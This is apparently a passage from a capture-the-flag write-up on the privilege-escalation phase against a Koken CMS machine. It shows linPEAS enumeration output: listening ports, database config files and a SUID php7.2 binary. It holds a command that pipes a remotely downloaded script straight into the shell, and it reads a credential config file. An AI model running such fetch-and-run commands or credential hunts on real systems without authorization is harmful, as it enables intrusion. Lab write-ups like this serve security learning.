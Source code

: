 ## Privilege Escalation 

15) We run linPEAS with `wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`. The most interesting findigs are:

- There's a mysql server on the machine

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -     
```

- There seems to be a hardcoded database password in the Koken API's config files

```
╔══════════╣ Analyzing Backup Manager Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2537 Aug  7  2017 /var/www/html/koken/app/application/config/database.php
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
$db['default']['password'] = $db_config['password'];
$db['default']['database'] = $db_config['database'];
-rw-r--r-- 1 www-data www-data 187 Jul 20  2020 /var/www/html/koken/storage/configuration/database.php
		'database' => 'koken',
		'password' => 'user_password_here',
```

- PHP seems to have a SUID bit:

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
... (omitted for brevity)
-rwsr-xr-x 1 root root 4.7M Jul  9  2020 /usr/bin/php7.2 (Unknown SUID binary!)
```


16) We inspect that database.php config file and we inspect the database (more than anything out of curiousity, don't really expect to find anything helpful there):

```
$ cat /var/www/html/koken/storage/configuration/database.php
<?php
	return array(
		'hostname' => 'localhost',
		'database' => 'koken',
		'username' => 'kokenuser',
		'password' => 'user_password_here',
		'prefix' => 'koken_',
		'socket' => ''
	);
```

